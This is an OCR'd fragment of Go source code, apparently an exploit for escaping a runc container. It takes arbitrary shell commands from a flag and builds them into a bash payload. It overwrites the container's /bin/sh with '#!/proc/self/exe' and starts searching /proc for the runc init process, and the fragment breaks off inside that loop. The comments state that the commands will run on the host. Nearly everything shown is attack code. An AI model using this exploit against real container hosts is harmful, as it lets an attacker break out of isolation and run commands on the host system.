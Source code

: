 ```
16.

17.var shellCmd string

18.

19.func init() {

20.flag.StringVar(&amp;shellCmd, "shell", "", "Execute arbitrary commands")

21.flag.Parse()

22.}

23.

24.func main() {

25.// This is the line of shell commands that will execute on the host

26.var payload = "#!/bin/bash \n" + shellCmd

27.// First we overwrite /bin/sh with the /proc/self/exe interpreter path

28.fd, err := os.Create("/bin/sh")

29.if err != nil {

30.fmt.Println(err)

31.return

32.}

33.fmt.Fprintln(fd, "#!/proc/self/exe")

34.err = fd.Close()

35.if err != nil {

36.fmt.Println(err)

37.return

38.}

39.fmt.Println("[+] Overwritten /bin/sh successfully")

40.

41.// Loop through all processes to find one whose cmdline includes runcinit

42.// This will be the process created by runc

43.var found int

44.for found == 0 {

45.pids, err := ioutil.ReadDir("/proc")

46.if err != nil {

47.fmt.Println(err)
```